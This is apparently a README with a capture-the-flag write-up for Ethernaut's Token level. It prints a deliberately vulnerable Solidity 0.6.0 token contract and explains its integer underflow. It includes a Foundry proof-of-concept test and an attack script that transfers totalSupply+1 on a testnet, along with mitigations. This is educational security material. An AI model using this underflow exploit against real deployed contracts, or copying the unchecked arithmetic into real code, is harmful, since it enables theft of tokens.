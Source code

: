 # Level 5: Token

**Level Page**: [See on Ethernaut](https://ethernaut.openzeppelin.com/level/0x478f3476358Eb166Cb7adE4666d04fbdDB56C407)

**Description**:

The goal of this level is for you to hack the basic token contract below.

You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.

Things that might help:

- What is an odometer?

`Description after completing level`:

Overflows are very common in solidity and must be checked for with control statements such as:

```javascript
if(a + c > a) {
  a = a + c;
}
```

An easier alternative is to use OpenZeppelin's SafeMath library that automatically checks for overflows in all the mathematical operators. The resulting code looks like this:

```javascript
a = a.add(c);
```

If there is an overflow, the code will revert.

**Code**:

<details>
<summary>Code to be exploited</summary>

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {
    mapping(address => uint256) balances;
    uint256 public totalSupply;

    constructor(uint256 _initialSupply) public {
        balances[msg.sender] = totalSupply = _initialSupply;
    }

    function transfer(address _to, uint256 _value) public returns (bool) {
        require(balances[msg.sender] - _value >= 0);
        balances[msg.sender] -= _value;
        balances[_to] += _value;
        return true;
    }

    function balanceOf(address _owner) public view returns (uint256 balance) {
        return balances[_owner];
    }
}
```

</details>

# Findings

### [M-1] Uint overflow allows anyone to update the token balance to a huge one

**Description**: The solidity `uint256` has a limit of numbers, where the max number is `2**256 - 1` and the minimum is `0` (zero). Because of that you can face problems when casting or while making some calculation, so we need to be careful, mainly when using an old version of solidity as `0.6.0`. After Solidity version `0.8.0`, if there is an overflow or underflow, the code will revert.

But, as the code is using solidity `0.6.0`, the overflow and underflow are allowed. This means that if the `_value` in the `Token::transfer` function is the total amount of tokens that the sender has plus one, the contract would calculate something like:
- `userBalance = userBalance - (userBalance + 1)` 

this is the same as 

- `userBalance = 0 - 1`

and here we have an underflow, where `userBalance` would be something like: `115792089237316195423570985008687907853269984665640564039457584007913129639935` that is the `uint256` max number.

```javascript
    function transfer(address _to, uint256 _value) public returns (bool) {
        require(balances[msg.sender] - _value >= 0);
@>      balances[msg.sender] -= _value;
        balances[_to] += _value;
        return true;
    }
```

**Impact**: Users can update their token balance to be a huge number by exploiting an underflow.

**Proof of Code**

Code snippet from `TokenAttack.t.sol`.

```javascript
function testShouldStoleAllTokens() public{
  address receiver = makeAddr("receiver");

  vm.prank(attacker);
  token.transfer(receiver, INITIAL_SUPPLY+1);

  uint256 underflowNumber = uint256(0 - 1); //115792089237316195423...
  assertEq(token.balanceOf(attacker), underflowNumber);
}
```

**Recommended Mitigation**: There are some recommendations to fix this issue:

- Use the [SafeMath](https://docs.openzeppelin.com/contracts/2.x/api/math) library from OpenZeppelin that already addresses this problem.
- Use a later Solidity version, recommended above `0.8.13`. Later versions do not allow integers overflow and underflows.

```diff
- pragma solidity 0.6.0;
+ pragma solidity 0.8.20;
```

- Use a pattern to develop Tokens as OpenZeppelin [ERC20](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/ERC20.sol). These patterns already addresses these problems.

# Attack

**Description**: To exploit this bug, we can just execute `Token::transfer` to another address sending in the `_value` the `totalSupply + 1` as your address is the only holder (`make attack`).

Code snippet from `TokenAttack.s.sol`:

```javascript
  // Getting the total Supply
  uint256 totalSupply = token.totalSupply();

  vm.startBroadcast(attackerPK);

  // Attack
  token.transfer(address(0), totalSupply + 1);

  vm.stopBroadcast();
```

And after that run `make submit` to submit the level to Ethernaut contract.

**Instance used**: [0x3B73aDaaFF46681F725bfb23A7414554458C6D0E](https://sepolia.etherscan.io/address/0x3B73aDaaFF46681F725bfb23A7414554458C6D0E)

**Attack Transaction**: [see on etherscan](https://sepolia.etherscan.io/tx/0x32db0a045a9d64c04301751887f085ef97d6bb4316fbc05b6017630f1906ded3)

**Level Completed Transaction**: [see on etherscan](https://sepolia.etherscan.io/tx/0xcd583eacd2fb35d4c067497ca4c830d73e2e062b48f439d2196284b79c08e081)

# Getting started

## Build

```bash
make build
```

## Test

```bash
make test
```

## Attack (testnet)

```bash
make attack
```

## Submit level (testnet)

```bash
make submit
```

## Check if you completed the level (testnet)

`true` - You completed the level
`false` - You didn't complete the level

```bash
make check
```